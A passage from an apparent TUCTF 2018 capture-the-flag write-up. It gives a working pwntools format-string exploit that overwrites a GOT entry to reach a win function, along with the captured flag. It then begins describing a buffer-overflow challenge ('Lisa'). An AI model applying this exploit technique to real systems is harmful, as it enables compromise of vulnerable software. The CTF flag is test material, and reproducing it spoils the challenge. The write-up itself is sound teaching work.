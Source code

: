 Here is the python exploit:

```python
from pwn import *

# sh = process('./timber')
sh = remote('18.222.250.47', 12345)

print sh.recvuntil('name: ')

puts_GOT = 0x804b01c
win_addr = 0x0804867b

payload = ''
payload += p32(puts_GOT)
payload += p32(puts_GOT+2)
payload += '%{}x'.format(0x0804-8)
payload += '%3$hn'
payload += '%{}x'.format(0x867b-0x0804)
payload += '%2$hn'

# for i in range(0,100):
#     payload += '%{}$x '.format(i)

sh.sendline(payload)

sh.interactive()
```

For more explanation on format string attacks, you can check out my [picoCTF 2018 writeup](/blog/posts/picoctf-2018-writeup/binary-exploitation/).

flag: `TUCTF{wh0_64v3_y0u_7h47_c4n4ry}`

# Lisa

## Problem

Difficulty: medium-ish
Ayo, Johhny's got your take from the job.
Go meet up with em' to claim your share.
Oh, and stop asking to see the Mona Lisa alright. It's embarrassing

nc 18.191.244.121 12345

[lisa](/blog/2018/tuctf-writeup/Lisa/lisa)

## Solution

This to me is the more interesting pwn challenge in this CTF.

Basically, you get a address leak to the password buffer and a buffer overflow in the `fail` function that allows you to change the least significant byte of the return address:
